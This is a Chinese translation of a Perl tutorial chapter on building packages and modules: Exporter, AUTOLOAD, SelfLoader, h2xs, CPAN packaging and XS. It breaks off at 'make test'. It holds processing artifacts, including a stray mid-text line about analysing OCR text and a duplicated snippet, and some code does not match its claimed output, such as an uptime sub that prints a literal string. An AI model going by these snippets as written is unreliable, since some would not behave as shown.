> "创建包很容易，"新手程序员说，"但是创建 Perl 模块呢？我希望在引入模块时，子程序名能自动导出到我的代码中。""创建模块和创建包一样容易，"你说。

Perl 模块就是一个包，其中包被定义在一个与包同名且扩展名为 .pm 的文件中。（使用该扩展名使得 **use** 或 **require** 模块稍微容易一些，因为这些语句将该扩展名用作默认值。）

例如，我像这样创建一个名为 Module1.pm 的模块：

```
package Module1;

BEGIN { }

sub subroutine1 {print "Hello!\n";}
return 1;

END { }
```


模块可以将符号导出到程序的命名空间中，这样在使用这些符号时就不必在前面加上模块名和包分隔符了（尽管你也可以选择这样做）。详细信息请参阅接下来的几个主题。另请参阅本章中的“使用**h2xs**创建专业模块和模块模板”主题，了解如何创建专业风格的模块模板。

## 默认从模块导出符号

“好的，”新手程序员说，“我想创建一个模块，这样当我把这个模块添加到我的代码中时，我的名为**datacruncher**的子程序就能自动导出。我该怎么做？”“没问题，”你说。“只需使用**Exporter**模块即可。”

如果你使用Perl的**Exporter**模块，就可以默认导出模块中的符号。当你在代码中使用一个模块时，该模块的**import**方法会被调用，以确定要导入哪些符号。（方法是对象的子程序；更多详情请参阅下一章。）**Exporter**模块可以为你设置**import**方法。

例如，在一个名为**Module1**的模块中，我可以使用这里的**Exporter**模块来导出一个名为**subroutine1**的子程序。在这种情况下，我使用**@ISA**数组来告诉Perl，如果在当前模块中找不到某个方法，就去检查**Exporter**模块——具体来说，是**import**方法：

```
package Module1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1);
}

sub subroutine1 {print "Hello!\n";}
return 1;

END { }
```

如果你有其他符号需要导出，可以像这样将它们添加到**@EXPORT**数组中：**@EXPORT = qw(&subroutine1 &subroutine2 &subroutine3 $variable1)**。

现在，当一些代码使用这个模块时，**subroutine1**会被自动添加到该代码的命名空间中，这意味着你可以在不使用模块名限定的情况下调用它：

```
use Module1;
subroutine1();
```

*Hello!*

请注意，你也可以指明哪些符号可以导出但不希望默认导出。详情请参阅下一个主题。

## 允许从模块导出符号

“哇，”新手程序员说，“自动导出变量和子程序名这样的符号真是太棒了。但是，我的新模块有这么多符号，我不确定是否要全部自动导出。”“嗯，”你说，“你可以将符号标记为可导出。这意味着它们不会自动导出，但可以根据需要导出。”“听起来不错，”新手程序员说。“那么，你的这个新模块里到底有多少符号？”你问道。“大约一百四十五万三千九百——”“算了，”你说。

尽管你可以默认导出模块中的符号，但你应该谨慎行事（毕竟，包和模块背后的理念是避免命名空间混乱）。一个替代方案是通过将这些符号放在名为**@EXPORT_OK**的数组中并使用Perl Exporter模块，来指明哪些符号*可以*从模块中导出：

```
package Module1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT_OK = qw(&subroutine1);
}

sub subroutine1 {print "Hello!\n";}
return 1;

END { }
```

现在，使用此模块的代码可以导入子程序**subroutine1**，但该子程序默认不会被导出。以下是我如何从另一个包的代码中显式导入**subroutine1**的方法：

```
use Module1 qw(&subroutine1);
subroutine1();
```

*Hello!*

请注意，如果你像这里一样在**use**语句中提供要导入的符号列表，那么默认情况下*不会*导入任何符号，只会导入你指定的符号（如果它们存在且已被标记为可导出）。

## 防止自动符号导入

“所以，模块可以在Perl中自动导出符号，”编程正确性沙皇说。“如果你使用的模块定义了一个与你已经使用过的子程序同名的子程序，会怎样？导入的子程序会覆盖你的。”“这其实不是问题，”你说，“你可以关闭自动符号导入，只显式导入你想要的符号。”

如果你不想让你使用的模块将任何符号导出到代码的符号表中，你可以在**use**语句中模块名后面添加一对空括号。

例如，如果**Module1**默认导出**subroutine1**，你可以像这样关闭该导出：

```
use Module1();
subroutine1();
```

*Undefined subroutine &main::subroutine1 called at script1.pl line 2.*

如果模块导出的符号与你自己的符号冲突，这项技术会很有用。

## 防止符号导出

默认情况下，使用你的模块的代码无法导入符号，除非你导出它们或将它们标记为可导出。但是，如果你想明确表示不想从模块中导出某个符号，可以在**@EXPORT_FAIL**数组中列出该符号（如果你使用**Exporter**模块）。

举个例子，我将编写一个模块**Uptime.pm**，用于Unix和Windows。这个模块导出一个名为**uptime**的子程序，该子程序只是使用反引号运算符调用Unix的**uptime**命令。（**uptime**命令表示系统已运行了多长时间。）

然而，Windows没有**uptime**命令，因此，如果代码在Windows中执行（我通过预定义变量**$^O**检查操作系统名称），我会阻止**uptime**子程序的导出：

```
package Uptime;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    if ($^O ne 'MSWin32') {
        @EXPORT = qw(&uptime);
    } else {
        print "Sorry, no uptime available in Win32.\n";
        @EXPORT_FAIL = qw(&uptime);
    }
}

sub uptime {print 'uptime';}
return 1;

END { }
```

在接下来的script1.pl脚本中，我尝试使用**uptime**模块中的**uptime**子程序：

```
use Uptime;
uptime();
```

在Unix中，我得到类似这样的结果：

*2:45pm  up 44 days, 20:32,  15 users,  load average: 2.21, 1.48, 0.93*

但是，在Windows中，我得到以下结果：

*Sorry, no uptime available in Win32.*
*Undefined subroutine &main::uptime called at script1.pl line 2.*

| 相关解决方案： | 详见页码： |
| --- | --- |
| $^O 操作系统名称 | 439 |

## 不使用 import 方法进行导出

当有人使用你编写的模块时，该模块的**import**方法会被自动调用。该方法导入模块导出的符号。然而，一些模块实现了自己的**import**方法，这意味着Perl **Exporter**模块附带的import方法不会被调用。但你可以使用Exporter模块的**export_to_level**方法进行自己的导出。

你通常会在自己的**import**方法中使用**export_to_level**。例如，我使用一个自定义的import方法从**Module1**导出一个变量**$variable1**（在这种情况下，import方法做的很少——它只是打印“**In import**”并导出**$variable1**）：

```
package Module1;

BEGIN { }

use Exporter();

@ISA = qw(Exporter);
@EXPORT = qw ($variable1);

$variable1 = 100;

sub import
{
    print "In import\n";
    Module1->export_to_level(1, @EXPORT);
}

return 1;

END { }
```

在这种情况下，我是在向上一级导出符号到调用模块，所以我向**export_to_level**传递1和包含要导出符号的数组。现在，你可以在其他代码中使用**Module1**，而**$variable1**会被自动导出：

```
use Module1;
print "\$variable1 = ", $variable1;
```

*In import*
*$variable1 = 100*

## 使用编译时未知的包名限定符号

“我遇到一个真正的问题，”新手程序员说。“我想使用*要么*来自**Circle**包*要么*来自**Rectangle**包的**draw**子程序。在代码实际运行并且用户决定使用哪个包之前，我不会知道是哪个。这是个问题，因为这意味着我不能在代码中使用特定的包名作为限定符——比如**Circle::draw**或**Rectangle::draw**。我希望我能像对待变量一样对待包限定符，比如**$package::draw**，以便在运行时填充。”“实际上，”你说，“如果你将它变成一个符号引用，你*可以*将包限定符视为变量。”

考虑以下示例，它展示了如何使用在运行时才知道的包名来限定符号。在这个例子中，我将使用两个模块**Module1**和**Module2**，它们都有一个子程序（在每个模块中做不同的事情）和一个名为**$variable1**的变量（在每个模块中保存不同的值）。

**Module1**如下：

```
package Module1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1 $variable1);
}

sub subroutine1 {print "Hello!\n";}
$variable1 = 100;

return 1;

END { }
```


## 第17章 创建包与模块

以下是**Module2**的代码：

```perl
package Module2;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1 $variable1);
}

sub subroutine1 {print "Hi!\n";}
$variable1 = 500;

return 1;
END { }
```

现在，我将让它们发挥作用。首先，我将两个模块都添加到代码中：

```perl
require Module1;
require Module2;
```

现在，我可以像这样创建并使用指向**subroutine1**的符号引用来调用**Module1**中的**subroutine1**：

```perl
require Module1;
require Module2;

$module = Module1;
$subname = subroutine1;

$callme = $module . '::' . $subname;
&{$callme};
```

同样，我可以像这样创建并使用指向**variable1**的符号引用来使用**Module1**中的**$variable1**：

```perl
require Module1;
require Module2;

$module = Module1;
$variablename = variable1;

$printme = $module . '::' . $variablename;
print "The variable = $printme";
```

> *你好！*
> *The variable = Module1::variable1*

这里需要理解的关键点是，我在运行时（而非编译时）组装了所需符号的全限定名，然后使用该名称作为符号引用来引用所需的符号。

通过这种方式，即使直到运行时才知道包名，你也可以使用需要包名全限定的符号。

### 重定义内置子程序

> “我讨厌那个**exit**函数，”新手程序员说，“因为它会终止执行，用户就无法继续运行我精彩的程序了。”“嗯，”你说，“你只需从另一个模块导入新版本，就可以重定义**exit**或其他函数。”

接下来的示例通过从模块**Module1**导入另一个版本来重写Perl程序中的**exit**函数。**Module1.pm**如下所示，其中新的**exit**函数只是打印一条消息：

```perl
package Module1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&exit);
}

sub exit {print "Why do you want to quit?\n";}

return 1;

END { }
```

现在，我可以将**Module1**添加到程序中。当我尝试使用**exit**函数时，得到以下结果：

```perl
use Module1;

exit;
print "I'm still here!";
```

> *Why do you want to quit?*
> *I'm still here!*

请注意，如果用户确实想要退出程序，你可以使用伪包**CORE**：**CORE::exit**。**CORE**伪包始终保存原始的内置函数，即使你重写了其中一个函数，仍然可以通过**CORE**来访问它。

| 相关解决方案： | 找到页码： |
| --- | --- |
| 重定义内置子程序 | 317 |

### 创建嵌套模块

“嗯，”新手程序员说，“我现在有很多模块了，比如**Calculate**、**Compile**和**Crunch**，开始变得拥挤了。我想把它们组织成一个主模块**NP**的子模块，这样我就有**NP::Calculate**、**NP::Compile**、**NP::Crunch**等等。我该怎么做？”“这并不难，”你说，“请坐。”

正如我们在第12章中使用**Term::Cap**等模块时看到的，模块可以被*嵌套*；也就是说，**Cap**是**Term**模块的一个*子模块*。

模块并非在字面上嵌套（即，你不会在**Term**模块的定义中编写**Cap**）；相反，你会将子模块放在其父模块下方的目录中，因为Perl在搜索模块时将包分隔符**::**视为目录分隔符（也就是说，**Module1::Code1**在Unix中成为**Module1/Code1**，在Windows中成为**Module1\Code1**）。

在下面的示例中，我将创建模块**Module1::Code1**并使用该模块中名为**subroutine1**的子程序。要编写**Module1::Code1**，我首先创建一个新目录**Module1**。（要跟随操作，你应确保该目录在你的**@INC**路径中；例如，将**Module1**目录创建为当前目录的子目录，或Perl lib目录（通常是模块的存储位置）的子目录。）然后，我将**Code1.pm**放入其中：

```perl
package Module1::Code1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1);
}

sub subroutine1 {print "Hello!\n";}

return 1;

END { }
```

请特别注意，该模块的名称（由**package**语句指定）是**Module1::Code1**，而不仅仅是**Code1**。（这是模块的实际名称；Perl不会对像**Module1::Code1**这样的名称进行逐级解析，即先找到**Module1**，然后才是**Module1::Code1**。）

现在，我可以自由地使用**Module1::Code1**中的**subroutine1**来打印**Hello!**：

```perl
use Module1::Code1;
subroutine1();
```

```
Hello!
```

请注意，使用Perl的**h2xs**工具创建的模块会根据你创建模块时给出的名称自动创建并安装正确的子目录层级；也就是说，如果你创建一个名为**NP::Crunch**的模块，**h2xs**将自动创建相应的目录结构。（请参阅本章后面的“使用**h2xs**创建专业模块和模块模板”主题。）

| 相关解决方案： | 找到页码： |
| --- | --- |
| Term::Cap：定位光标以显示文本 | 534 |

### 设置和检查模块版本号

新手程序员跺着脚说：“那个该死的约翰逊用了我一个模块的过时版本，在大老板面前直接出错了。但是，我早就更新了那个模块，新版本本来是能正常工作的。”“好吧，”你说，“你可以给你的模块版本号，并坚持要求用户使用最新版本。”那位新手程序员笑着说：“这就能让那个该死的约翰逊看看。”

既然你正在创建模块，其他程序员就可以使用你的代码。但是，如果他们没有你代码的正确版本怎么办？事实上，你可以使用**Exporter**模块来实现版本检查。为此，只需在使用**Exporter**时设置变量**$VERSION**，如下例所示，我将**Module1**的版本号设置为**1.00**：

```perl
package Module1;

BEGIN { }

use Exporter();

@ISA = qw(Exporter);
@EXPORT = qw ($variable1);

$VERSION = 1.00;

return 1;

END { }
```

现在，当有人使用**Module1**时，他或她可以使用**Exporter**的**require_version**方法来检查该模块的版本，方式如下。如果所需版本与实际版本不匹配，将产生如下错误：

```perl
use Module1();
Module1->require_version(2.00);
```

```
Module1 2 required--this is only version 1
(Module1.pm) at usem.pl line 2
```

### 在模块中自动加载子程序

“该死，”新手程序员说，“我的模块使用了53个其他模块，如果我同时加载它们，内存就不够用了。”“这是个问题，”你同意道。“解决方法是只在需要时加载模块，你可以通过使用**AUTOLOAD**子程序来实现。”

当你调用一个不存在的子程序时，你会得到一个错误——除非你已经定义了一个**AUTOLOAD**子程序。当你调用不存在的子程序时，该子程序会被调用，你调用的子程序的名称存储在变量**$AUTOLOAD**中。传递给不存在的子程序的参数通过数组**@_**传递给**AUTOLOAD**。

通常，被调用的子程序并非真的不存在，而是存在于你不想在需要之前加载的模块中。此时，你可以使用**require**语句来加载它（这就是为什么这个过程被称为*自动加载*）。

考虑这个例子。在这个例子中，我将创建一个名为**Autoload.pm**的模块来处理自动加载，并调用一个名为**subroutine1**的子程序，该子程序实际上在**Module1**中，程序启动时并未加载。为此，我将把这段代码放在名为loadsub.pl的程序中：

```perl
use Autoload;
subroutine1();
```

当我运行loadsub.pl时，Perl将调用**Autoload**模块中的**AUTOLOAD**子程序，寻找**subroutine1**。

我按如下方式创建**Autoload.pm**模块：首先，我导出一个**AUTOLOAD**子程序，如下所示：

```perl
package Autoload;

BEGIN
{
    use Exporter  ();
    @ISA      = qw(Exporter);
    @EXPORT   = qw(&AUTOLOAD);
}
```

然后，在**AUTOLOAD**子程序中，我去除被调用子程序名称的所有包限定符，并测试所寻求的子程序是否为**subroutine1**：

```perl
package Autoload;

BEGIN
{
    use Exporter  ();
    @ISA      = qw(Exporter);
    @EXPORT   = qw(&AUTOLOAD);
}
```


让我仔细分析OCR文本并进行处理。

# 第17章 创建包和模块

```perl
sub AUTOLOAD ()
{
    my $subroutine = $AUTOLOAD;
    $subroutine =~ s/.*:://;

    if ($subroutine eq 'subroutine1') {
        .
        .
        .
    }
}
```

如果Perl正在查找的子程序是**subroutine1**，我就用**require**语句加载**Module1**，并这样调用**subroutine1**：

```perl
package Autoload;

BEGIN
{
    use Exporter  ();
    @ISA       = qw(Exporter);
    @EXPORT    = qw(&AUTOLOAD);
}

sub AUTOLOAD ()
{
    my $subroutine = $AUTOLOAD;
    $subroutine =~ s/.*:://;

    if ($subroutine eq 'subroutine1') {
        require Module1;
        &Module1::subroutine1;
    }
}

return 1;

END { }
```

**Module1.pm**的内容如下；注意子程序**subroutine1**只是打印"Hello!\n"：

```perl
package Module1;

BEGIN
{
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1 $variable1);
}
```

```perl
sub subroutine1 {print "Hello!\n";}
$variable1 = 100;

return 1;

END { }
```

因此，所有这些代码的结果是，当我运行loadsub.pl时，Perl会调用**Autoload.pm**模块中的**AUTOLOAD**来查找**subroutine1**。**AUTOLOAD**子程序中的代码首先确认Perl正在查找**subroutine1**，然后加载该子程序所在的模块**Module1**。最后，它调用**subroutine1**，打印出消息。控制台会发生以下情况：

```
%perl loadsub.pl

Hello!
```

## 使用AUTOLOAD模拟子程序

> “哎呀，”新手程序员说，“大老板要我向代码里添加400个新子程序，这得花掉我整个周末，尽管它们基本上都差不多。”“没问题，”你说，“创建一个函数模板，或者使用**AUTOLOAD**来模拟这些子程序。”

有时，被调用的子程序可能不存在，这种情况下你可以使用**AUTOLOAD**子程序来模拟它。例如，你可以使用**AUTOLOAD**让程序员将系统命令当作子程序使用，方法是将被调用的子程序及其参数用反引号括起来。

在下面的例子中，我创建了一个名为**Autoload.pm**的模块，其中使用**AUTOLOAD**子程序来显示被调用的、不存在的子程序的名称和参数。被调用的子程序名称通过**$AUTOLOAD**传递给**AUTOLOAD**，参数则通过**@_**传递。注意，在这个模块中我必须显式地导出**AUTOLOAD**子程序：

```perl
package Autoload;

BEGIN
{
    use Exporter ();
    @ISA = qw(Exporter);
    @EXPORT = qw(&AUTOLOAD);
}

sub AUTOLOAD ()
{
    my $subroutine = $AUTOLOAD;
    $subroutine =~ s/.*:://;
    print "You called $subroutine with these arguments: ", join(", ", @_);
}

return 1;

END { }
```

**$AUTOLOAD**中的子程序名称是完全限定的；例如，如果我使用以下代码调用一个不存在的名为**printem**的子程序，**$AUTOLOAD**会保存'main::printem'：

```perl
use Autoload;

printem (1, 2, 3);
```

在**Autoload.pm**中，我去掉了所有前缀，只保留被调用子程序的实际名称，因此调用**printem**的结果如下：

> You called printem with these arguments: 1, 2, 3

现在你已经知道调用了哪个子程序，以及传入了哪些参数，你就可以自由地使用**require**语句加载包含该子程序的模块，或者可以在**AUTOLOAD**本身中模拟该子程序。

## 使用AutoLoader和SelfLoader

“我的模块代码又变得非常庞大了，”新手程序员说。“你能建议一些处理它的好方法吗？”“可以，”你说，“你可以使用**AutoLoader**或**SelfLoader**。坐下来，我们来过一遍。”

如果你不想一次性加载和编译模块中的所有代码，你可以将其拆分。一种方法是使用**AutoLoader**和**AutoSplit**模块。

要使用**AutoSplit**，你需要在模块中的子程序之前放置令牌`__END__`，这样编译器就会忽略它们，然后使用**AutoSplit**的**autosplit**方法来分割模块。

**AutoSplit**模块会将你的模块子程序分割成文件，使用.al扩展名，并将它们放在名为**auto**的目录的子目录中。例如，如果你有一个名为**sub1**的子程序，该子程序的代码将存储在auto/sub1.al中。**AutoSplit**还会为自动加载器创建一个名为autosplit.ix的索引。

要使用新分割模块中的子程序，你可以使用**AutoLoader**模块的默认**AUTOLOAD**方法：

```perl
use AutoLoader 'AUTOLOAD';
```

现在，当一个无法找到的子程序被调用时，**AutoLoader**模块将在autoload.ix中搜索该子程序的条目，如果找到，就会加载并编译它。

你也可以使用**SelfLoader**模块按需加载和编译子程序。要使用该模块，请将子程序的定义放在令牌`__DATA__`（不是`__END__`）之后，这样编译器就会忽略它们。当它们被调用时，**SelfLoader**模块将编译并加载它们。

在这个例子中，我使用**SelfLoader**来处理名为**Module1**的模块中一个名为**subroutine1**的子程序：

```perl
package Module1;

BEGIN
{
    use Exporter();
    use SelfLoader();
    @ISA = qw(Exporter SelfLoader);
    @EXPORT = qw(&subroutine1);
}

return 1;

END { }

__DATA__
sub subroutine1 {print "Hello!\n";}
```

你可以从另一个模块这样访问**Module1**的**subroutine1**（注意**subroutine1**在被调用之前不会被加载和编译）：

```perl
use Module1;
subroutine1();
```

*Hello!*

## 使用h2xs创建专业模块和模块模板

新手程序员出现了，说：“我有一个非常好的数学例程，我认为每个人都能从中受益，我想创建一个模块来分发它。”“这个数学例程是做什么的？”你问。“它接收数字，”新手程序员说，“然后把它们翻倍。”“嗯，”你说，“听起来确实很重要。最好使用**h2xs**创建一个模块模板，然后把你的代码放进去。”

如果你想分发一个模块，尤其是在CPAN上，你应该使用Perl的**h2xs**工具来创建模块模板以及你将需要的其他文件。使用**h2xs**创建的模块可以使用标准安装技术进行安装：

```
%perl Makefile.PL
%make
%make test
%make install
```

在这种情况下，按照新手程序员的引导，我将创建一个名为**Integer::Doubler**的模块，并为其添加一个函数**doubler**，该函数将接收一个值并返回该值乘以2的结果。在本主题以及接下来的两个主题中，我将创建该模块，直到将其压缩成可供发送到CPAN的状态。我将在Unix中创建此示例，最终得到一个模块的压缩tar文件，这是CPAN的标准格式。

第一步是使用**h2xs**创建一个新模块，我将其命名为**Integer::Doubler**。（注意**h2xs**可能未安装在你的系统上，这种情况下你应该找你的系统管理员，如果有的话。）模块解压缩后，用户运行**perl Makefile.PL**和**make**，使用**make install**将使用正确的目录结构自动将模块安装到他或她的机器上。然后用户可以在代码中添加一行**use Integer::Doubler**，之后他或她就可以自由使用**doubler**函数了。

在这种情况下，我将使用**h2xs**的开关**-A**表示我不需要任何自动加载代码，**-X**表示这是一个没有任何Perl XS扩展的Perl模块（有关更多信息，请参阅本章后面的主题“XS—用C创建Perl扩展”）：

```
% h2xs -A -X -n Integer::Doubler
Writing Integer/Doubler/Doubler.pm
Writing Integer/Doubler/Makefile.PL
Writing Integer/Doubler/test.pl
Writing Integer/Doubler/Changes
Writing Integer/Doubler/MANIFEST
```

如你所见，**h2xs**创建了许多模板文件，将内容组织到适当的目录结构中。实际的模块模板是**Doubler.pm**，其内容如下：

```perl
package Integer::Doubler;

use strict;
use vars qw($VERSION @ISA @EXPORT);

require Exporter;
require AutoLoader;

@ISA = qw(Exporter AutoLoader);
# 默认导出到调用者命名空间的项目。注意：除非有非常好的理由，否则不要默认导出名称。请改用EXPORT_OK。
# 不要简单地导出所有公共函数/方法/常量。
@EXPORT = qw(

);
$VERSION = '0.01';


# 预加载的方法放在这里。

# 自动加载方法放在=cut之后，由autosplit程序处理。

1;
__END__
# 以下是你的模块的文档存根。你最好编辑它！

=head1 NAME

Integer::Doubler - Perl extension for blah blah blah

=head1 SYNOPSIS
```


use Integer::Doubler;
blah blah blah

## 描述

Integer::Doubler 的存根文档由 h2xs 创建。看起来该扩展的作者非常疏忽，没有编辑这个存根。

Blah blah blah.

## 作者

A. U. Thor, a.u.thor@a.galaxy.far.far.away

## 另请参阅

perl(1).

```perl
=cut
```

**h2xs** 工具已经在这个模块模板中为所有需要的内容提供了空间，包括 POD 文档和版本号的空间，你应该始终将版本号保持为最新（参见本章前面的“设置和检查模块版本号”主题——任何你发送到 CPAN 的模块都必须有版本号）。即使你不打算分发你的模块，这个模板也很有价值。

在这种情况下，我将只导出 **doubler** 函数，并在 **Doubler.pm** 中这样编写该函数：

```perl
@ISA = qw(Exporter AutoLoader);
# Items to export into callers namespace by default. Note: do not export
# names by default without a very good reason. Use EXPORT_OK instead.
# Do not simply export all your public functions/methods/constants.
@EXPORT = qw(
doubler
);
$VERSION = '0.01';

# Preloaded methods go here.

sub doubler
{
    return 2 * shift;
}
```

这样就完成了 **Doubler.pm**。要查看如何测试新模块，请看下一个主题。

| 相关解决方案： | 找到于页面： |
| --- | --- |
| POD: Plain Old Documentation | 365 |
| Installing a Module | 600 |

## 测试你的模块

> > “好的，”新手程序员说，“我使用 **h2xs** 为我的 **Integer::Doubler** 模块创建了一个模板，并且我已经将我的代码添加到了 **Doubler.pm** 中。接下来该怎么做？”
> “下一步，”你说，“是测试你的模块。”

用户安装你的模块时，第一步是使用 **perl Makefile.PL** 构建它的 **makefile**，所以我来检查一下它的内容：

```
% perl Makefile.PL
Checking if your kit is complete...
Looks good
Writing Makefile for Integer::Doubler
```

很好；现在我有了模块的 **makefile**。要使用那个 **makefile**，用户将输入 **make** 命令，所以我也测试一下：

```
% make

cp Doubler.pm ./blib/lib/Integer/Doubler.pm
AutoSplitting Integer::Doubler (./blib/lib/auto/Integer/Doubler)
Manifying ./blib/man3/Integer::Doubler.3
```

测试的最后一步是运行 **make test**，所以我将向 h2xs 创建的 test.pl 文件中添加一些代码来测试模块。文件 test.pl 现在看起来像这样：

```perl
# Before 'make install' is performed this script should be runnable with
# 'make test'. After 'make install' it should work as 'perl test.pl'

################# We start with some black magic to print
on failure.

# Change 1..1 below to 1..last_test_to_print .
# (It may become useful if the test is moved to ./t subdirectory.)

BEGIN { $| = 1; print "1..1\n"; }
END {print "not ok 1\n" unless $loaded;}
use Integer::Doubler;
$loaded = 1;
print "ok 1\n";

##################### End of black magic.

# Insert your test code below (better if it prints "ok 13"
# (correspondingly "not ok 13") depending on the success of chunk 13
# of the test code):
```

你将测试代码插入到 test.pl 的末尾，并且可以假设你的模块在那时已经被加载。在这种情况下，我将只是使用 **Integer::Doubler** 中的 **doubler** 函数将数字 2 加倍，如下所示：

```perl
print "2 * 2 = ", doubler(2);
```

现在，我运行 **make test** 来测试新模块：

```
% make test

PERL_DL_NONLAZY=1 /usr/local/bin/perl -I./blib/arch -I./blib/lib
-I/usr/local/lib/per15/sun4-sunos/5.005 -I/usr/local/lib/per15 test.pl
1..1
ok 1
2 * 2 = 4
```

你可以看到结果——**2 * 2 = 4**，这意味着 **doubler** 正常工作。（当然，你应该对你的代码进行更多更广泛的测试；这个示例只是测试模块是否被正确创建）。**Integer::Doubler** 模块已准备好安装（即，输入 **make install**，或者如果没有系统安装权限并希望创建私人安装，则输入类似 **make install LIB=/home/username/lib** 的命令。下一步是将其压缩以进行分发。要了解如何操作，请参阅下一个主题。

| 相关解决方案： | 找到于页面： |
| --- | --- |
| Installing a Module | 600 |

## 压缩你的模块以进行分发

“好吧，”新手程序员说，“我的模块确实已经为分发做好了准备。我已经彻底测试过了，它也能正常安装。现在我该做什么？”“现在，”你说，“你需要将其压缩以进行分发。”

如何压缩你的模块取决于平台。CPAN 上大多数可独立下载的模块都是针对 Unix 的压缩 tar 存档文件。你可以使用这个简单的命令从我们过去几个主题中创建的模块创建一个压缩的 tar 文件：

```
% make tardist
```

```
rm -rf Integer-Doubler-0.01
/usr/local/bin/perl -I/usr/local/lib/perl5/sun4-sunos/5.005
-I/usr/local/lib/perl5 -MExtUtils::Manifest=manicopy,maniread \
        -e 'manicopy(maniread(),"Integer-Doubler-0.01", "best");'
mkdir Integer-Doubler-0.01
tar cvf Integer-Doubler-0.01.tar Integer-Doubler-0.01
a Integer-Doubler-0.01/Makefile.PL 1 blocks
a Integer-Doubler-0.01/Doubler.pm 3 blocks
a Integer-Doubler-0.01/Changes 1 blocks
a Integer-Doubler-0.01/test.pl 2 blocks
a Integer-Doubler-0.01/MANIFEST 1 blocks
rm -rf Integer-Doubler-0.01
compress Integer-Doubler-0.01.tar
```

这个命令（在大多数 Unix 系统上，**make dist** 也会做同样的事情）创建 Integer-Doubler-0.01.tar.Z。（注意 **Doubler.pm** 的版本号已自动集成到名称中。）你可以在前面的代码中看到每个文件被压缩到 Integer-Doubler-0.01.tar.Z 时的列表：Makefile.PL、Doubler.pm 等等。就是这样。恭喜，你的模块已准备好进行分发。事实上，你甚至可以将其提交给 CPAN——请参阅下一个主题以了解如何操作。

| 相关解决方案： | 找到于页面： |
| --- | --- |
| Installing a Module | 600 |

## 将模块提交给 CPAN

“好吧，”新手程序员说，“我的新模块已经准备好提交给 CPAN 了。我该如何将其发送到 CPAN，然后送到翘首以盼的世界？”“嗯，”你有些怀疑地说，“你首先需要联系 PAUSE。”

要将模块发送到 CPAN，你首先要联系 Perl 作者上传服务器 *(PAUSE)*，这是一个专门为 CPAN 作者服务的服务器。请查看 **www.cpan.org/modules/04pause.html** 上的 PAUSE 页面了解详细信息。你将被指示向 **modules@perl.org** 发送一条消息（包含你的姓名、电子邮件地址、模块描述等），以注册成为模块作者。

在你向 PAUSE 发送所需信息的电子邮件后，你会在几周内收到一封电子邮件，你可以选择一个密码，上传你的模块时需要它。实际的模块上传页面（目前）是 **https://pause.kbx.de/perl/user/add_uri**。

## XS——用 C 创建 Perl 扩展

编程正确性沙皇皱着眉头说：“我不知道。我就是无法适应这个 Perl 的东西。C 似乎对我来说好得多。”“好吧，”你说，“为什么不在你的 Perl 程序中写 C 代码呢？”PCC 吃惊地问：“我能做到吗？”“当然，”你说，“使用 **XS** 接口。”

**XS** 接口允许你将 C 代码放入 **XSUB** 中，并让其与 **XS** 编译器（名为 **xsubpp**）一起编译到你的模块中。这样做会为你的模块添加一个二进制部分（因此使其依赖于平台）。

例如，我将创建一个新模块 **Random::Number**，其中有一个函数 **random**，它使用标准 C 库的 **rand** 函数返回一个随机数。我从 Perl 的 **h2xs** 工具开始创建一个模块模板，并排除 **-X** 开关，以便 **h2xs** 将创建一个 XS 文件：

```
% h2xs -A -n Random::Number
```

```
Writing Random/Number/Number.pm
Writing Random/Number/Number.xs
Writing Random/Number/Makefile.PL
Writing Random/Number/test.pl
Writing Random/Number/Changes
Writing Random/Number/MANIFEST
```

除了其他文件，此代码还会创建 Number.xs，这是我将放置随机数函数 **random** 的 C 代码的地方。要从模块中导出该函数，我首先在 **Number.pm** 的导出部分中列出它，如下所示：

```perl
package Random::Number;

use strict;
use vars qw($VERSION $ISA @EXPORT);
```


# 第17章 创建包和模块

```perl
require Exporter;
require DynaLoader;

@ISA = qw(Exporter DynaLoader);
# 默认导出到调用者命名空间的条目。注意：除非有非常充分的理由，
# 否则不要默认导出名称。请改用 EXPORT_OK。
# 不要简单地导出所有公共函数/方法/常量。
@EXPORT = qw(
random
);
$VERSION = '0.01';
```

现在，我准备在 Number.xs 中编写 **random** 的 C 代码。该文件当前内容如下：

```c
#ifdef __cplusplus
extern "C" {
#endif
#include "EXTERN.h"
#include "perl.h"
#include "XSUB.h"
#ifdef __cplusplus
}
#endif

MODULE = Random::Number        PACKAGE = Random::Number
```

**random** 的代码将放在这个文件的底部。在这种情况下，我会将返回值设为 **double** 类型，声明 **random** 不接受任何参数，并通过使用 C 的 **rand** 函数将返回值设置为 0 到 100 之间的随机数，如下所示：

```c
#ifdef __cplusplus
extern "C" {
#endif
#include "EXTERN.h"
#include "perl.h"
#include "XSUB.h"
#ifdef __cplusplus
}
#endif

MODULE = Random::Number        PACKAGE = Random::Number

double
random()
    CODE:
        RETVAL = rand() % 100;
```

实际上，我可以以各种不同的方式编写 **XSUBs**，而且我可以省略 **CODE:** 标签，到此为止，因为 **RETVAL** 会自动返回（在被转换为正确的返回值类型之后）。然而，较长的 **XSUBs** 通常包含一个 **CODE:** 部分，用于将代码与其他部分（如变量声明）区分开来，并且如果你使用了 **CODE:** 标签并想从 **XSUB** 返回值，还必须像下面这样使用 **OUTPUT:** 标签，在这里我显式地声明要从这个 **XSUB** 返回 **RETVAL**：

```c
MODULE = Random::Number         PACKAGE = Random::Number

double
random()
    CODE:
        RETVAL = rand() % 100;
    OUTPUT:
        RETVAL
```

对于这个简单的例子来说，这就是全部所需。要测试这个新模块，我将以下代码添加到 test.pl 中：

```perl
use Random::Number;
$loaded = 1;
print "ok 1\n";

######################### End of black magic.

# Insert your test code below (better if it prints "ok 13"
# (correspondingly "not ok 13") depending on the success of chunk 13
# of the test code):

$s = random();
print "Random number: $s\n";
```

然后，当我运行 **make** 再运行 **make test** 时，可以看到 **random** 函数返回的随机数（请注意，你可能需要为系统上的 C 例程 **rand** 设置种子，以返回唯一的 **random** 数字序列）：

```
%make test

